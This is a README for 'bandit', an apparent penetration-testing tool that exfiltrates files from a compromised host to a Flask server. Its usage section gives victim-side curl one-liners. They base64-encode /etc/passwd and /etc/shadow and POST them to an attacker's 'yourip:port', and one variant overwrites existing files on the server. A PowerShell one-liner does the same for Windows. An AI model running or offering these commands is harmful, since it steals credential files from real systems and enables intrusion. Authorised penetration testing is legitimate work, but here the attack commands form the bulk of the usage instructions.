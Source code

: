 # bandit
A quick and easy way to exfiltrate files

# purpose
Bandit is designed as a simple way to exfiltrate files during a penetration test without relying on dedicated tools on a compromised host. However, it can be used in any situation where uploads need to happen quickly and easily - for example, automated backup programs. 
While the server is written in python/flask, the uploads are handled through base64 and curl - both of which are nearly ubiquitous on most unix systems. This miniscule footprint means no file movement is needed to begin using bandit on any given linux-based system. The simplicity of the protocol also allows for custom programs to be written that leverage it - for example, a windows program could handle encoding and uploading the files. 

# usage
Attacker: ```python3 bandit.py [port]```

Victim: ```curl -d "passwd=$(base64 /etc/passwd)&shadow=$(base64 /etc/shadow)" http://yourip:port/```

It is important to use double quotes to allow bash to process reading the files and encoding them before upload

If you wish to overwrite the existing files, instead of failing to upload if they exist on the server, specify the /overwrite path. This will scribble over any existing files on the server that conflict with the attempted upload, so use with caution. Yes, path travesal checks are made before file IO

Victim: ```curl -d "passwd=$(base64 /etc/passwd)&shadow=$(base64 /etc/shadow)" http://yourip:port/overwrite```

Bandit is also compatible with Windows Powershell, although usage is not as straightforward. To save you some time, here is a oneliner to upload a single file, filename.txt, to the remote server as uploadedfile:

```if ($PWD.Provider.Name -eq 'FileSystem') { [System.IO.Directory]::SetCurrentDirectory($PWD) } ; Invoke-WebRequest -Uri http://yourip:port -Method POST -Body @{uploadedfile=[Convert]::ToBase64String([IO.File]::ReadAllbytes("filename.txt"))}```


Note that bandit supports multiple files uploaded at the same time. Simply add as many parameters as you wish, one for each file, in the following format:

[desired filename]=[base64 encoded contents]
